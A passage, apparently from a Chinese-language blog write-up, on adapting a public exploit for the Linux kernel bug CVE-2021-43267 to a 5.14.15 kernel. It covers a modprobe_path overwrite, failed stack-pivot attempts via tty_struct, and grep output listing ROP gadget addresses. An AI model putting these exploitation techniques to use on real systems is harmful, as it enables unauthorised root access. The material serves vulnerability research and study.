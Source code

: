 
## 5. 改进exp

**问题**：exp作者编译的内核版本是 5.15.0，能够找到含 `xor eax, eax` （能反映执行是否成功）和 `mov dword ptr [rdx], rsi` 的gadget，但我编译的5.14.15版本内核不含该gadget。

**解决**：gadget中不需要含有 `xor eax, eax` 也能成功提权，见 `exp1.c`。成功提权截图如下：

![6-succeed](/images/posts/CVE-2021-43267/6-succeed.png)

**尝试别的gadget**：全部尝试都失败，看来目前只能修改 `modprobe_path` 了。exp原作者修改 `modprobe_path` 的方式非常好，如果通过rop链来修改`modprobe_path`的话，还需要保存现场，无法保存rsp原先的值，因为不能用`xchg rsp, xxx` 这样的gadget。

```c
// 首先执行到ioctl(), 发现 $rdi / $rbp / $r15 指向tty_struct, 可控
// (1) mov rsp, rdi/rbp/r15    			没找到
// (2) mov rsp, qword ptr [rdi/rbp/r15  没找到	
// (3) bridging gadget: regcache_mark_dirty(), 但是找不到 mov cr4, rdi
void regcache_mark_dirty(struct regmap *map)
{
	map->lock(map->lock_arg);
	map->cache_dirty = true;
	map->no_sync_defaults = true;
	map->unlock(map->lock_arg);
}
EXPORT_SYMBOL_GPL(regcache_mark_dirty);
// (4) push rdi/rbp/r15      pop rsp       不能破坏tty_struct前8字节(会导致ioctl调用失败)，所以pop rsp之后再pop两次
john@ubuntu:~/Desktop/tmp/CVE-2021-43267/file$ cat ./g1 | grep "push rdi" | grep "pop rsp"
0xffffffff8165f1aa: push rdi; add byte ptr [rdi], cl; or ebx, dword ptr [rbx + 0x41]; pop rsp; ret; 
0xffffffff814a353a: push rdi; add ebx, dword ptr [rbx + 0x41]; pop rsp; pop rbp; ret;  
john@ubuntu:~/Desktop/tmp/CVE-2021-43267/file$ cat ./g1 | grep "push rbp" | grep "pop rsp"
0xffffffff81131122: push rbp; add byte ptr [rbp + 0x41], bl; pop rsp; pop r13; ret; 
```